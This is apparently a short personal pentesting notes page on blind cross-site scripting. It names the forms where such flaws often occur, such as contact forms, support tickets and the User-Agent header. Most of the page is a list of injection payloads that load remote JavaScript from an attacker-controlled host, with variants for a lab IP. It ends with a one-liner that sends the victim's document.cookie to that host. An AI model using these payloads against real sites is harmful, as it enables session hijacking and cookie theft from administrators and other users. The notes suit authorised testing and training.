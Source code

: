 ```yaml
---
{"dg-publish":true,"permalink":"/blind-xss/"}
---
```



Blind XSS vulnerabilities usually occur with forms only accessible by certain users (e.g., Admins). Some potential examples include:

- Contact Forms
- Reviews
- User Details
- Support Tickets
- HTTP User-Agent header


```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

```html
<script src=http://OUR_IP/fullname></script>
```
```html
"><script src="http://10.10.15.11/username"></script>
```

```html
"><script src="http://10.10.15.11/script.js"></script>
```

```js
new Image().src='http://10.10.15.11/index.php?c='+document.cookie$
```